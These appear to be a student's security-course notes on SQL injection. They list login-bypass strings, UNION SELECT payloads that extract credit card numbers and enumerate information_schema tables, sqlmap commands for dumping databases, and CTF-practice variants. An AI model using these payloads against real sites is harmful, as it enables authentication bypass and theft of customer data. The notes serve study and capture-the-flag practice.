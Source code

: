 # Class 2

HTTP is stateless
Protocols fo not maintain information about prev comms. WebServer cant tell if 2 reqs are from same or multiple clients/browsers


# SQL

**' or '1=1**

**" or "1=1**

**" ' or '1=1 "@gmail.com**

**\' OR "1=1" #**

**Mary Martin' UNION SELECT creditcardnumber FROM customers WHERE customername = 'Mary Martin'; #**

**user → \      password → OR 1=1 AND userName="admin" #**

**spcil/|Pse3cr3etCouponStu.f4rU176**


## sqlmap commands

```bash
sqlmap -r file

sqlmap -r file --dbs

sqlmap -r file --dump tables

```

# Capture The Flags

**' or '1=1**

**" OR "1=1" --**

**'OR'1=1**

**'OR'1=1**

**add empty string option**

**"OR"1=1"#**

**'OR first_name like "_ dmi _" #**


**"OR"1=1"# → Griff" UNION (SELECT 1,2,3,4, table_schema, table_name FROM information_schema.tables) #**


# Week 6




